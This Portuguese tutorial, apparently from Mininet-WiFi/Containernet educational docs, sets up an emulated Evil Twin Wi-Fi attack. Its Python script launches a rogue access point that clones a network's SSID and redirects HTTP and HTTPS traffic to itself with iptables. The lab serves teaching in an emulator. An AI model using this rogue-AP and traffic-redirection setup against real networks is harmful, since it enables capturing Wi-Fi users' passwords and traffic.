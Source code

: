 ************
Evil Twin Attack
************


Hackeando a senha de Wi-Fi WPA2 usando Evil Twin Attack | DNSMASQ e Hostapd
-------------

.. Note::
  **Neste documento você irá compreender como realizar o ataque denominado de  Evil Twin Attack**
  
  **Requisitos:** 
  
  - Containernet - https://github.com/ramonfontes/containernet
  - Hostapd

  **A VM disponível em https://github.com/intrig-unicamp/mininet-wifi possui todos os recursos necessários para reproduzir este documento.**

Antes de tudo você precisa identificar a topologia de rede que será gerada através do código abaixo:

.. code:: python

 #!/usr/bin/python

 '''@author: Ramon Fontes
    @email: ramon.fontes@imd.ufrn.br'''

 from containernet.net import Containernet
 from containernet.node import DockerSta
 from mininet.log import setLogLevel, info
 from containernet.cli import CLI
 from containernet.term import makeTerm


 def topology():
     "Create a network."
     net = Containernet()

     info("*** Creating nodes\n")
     sta1 = net.addStation('sta1', ip='0/0')
     sta2 = net.addStation('sta2')
     ap1 = net.addAccessPoint('ap1', ssid="simplewifi", mode="g", channel="1",
                              failMode="standalone", datapath='user')
     ap2 = net.addStation('ap2', cls=DockerSta, dimage="ramonfontes/rogue-ap", cpu_shares=20)

     info("*** Configuring wifi nodes\n")
     net.configureWifiNodes()

     info("*** Associating Stations\n")
     net.addLink(sta2, ap1)

     info("*** Starting network\n")
     net.build()
     ap1.start([])

     ap2.setMasterMode(intf='ap2-wlan0', ssid='simplewifi', channel='1', mode='g')
     #ap2.cmd('pkill -f \"ap2-wlan0.apconf\"')
     ap2.cmd('ifconfig ap2-wlan0 up 192.168.190.1 netmask 255.255.255.0')

     #ap2.cmd('iptables --flush')
     ap2.cmd('iptables --table nat --append POSTROUTING --out-interface ap2-eth1 -j MASQUERADE')
     ap2.cmd('iptables --append FORWARD --in-interface ap2-wlan0 -j ACCEPT')
     ap2.cmd('iptables -t nat -A PREROUTING -p tcp --dport 80 -j DNAT --to-destination 192.168.190.1:80')
     ap2.cmd('iptables -t nat -A PREROUTING -p tcp --dport 443 -j DNAT --to-destination 192.168.190.1:80')
     ap2.cmd('iptables -t nat -A POSTROUTING -j MASQUERADE')
     ap2.cmd('echo 1 > /proc/sys/net/ipv4/ip_forward')

     sta1.cmd('ifconfig sta1-wlan0 192.168.190.2/24')
     sta1.cmd('route add default gw 192.168.190.1')

     info("*** Running CLI\n")
     CLI(net)

     info("*** Stopping network\n")
     net.stop()


 if __name__ == '__main__':
     setLogLevel('info')
     topology()
```


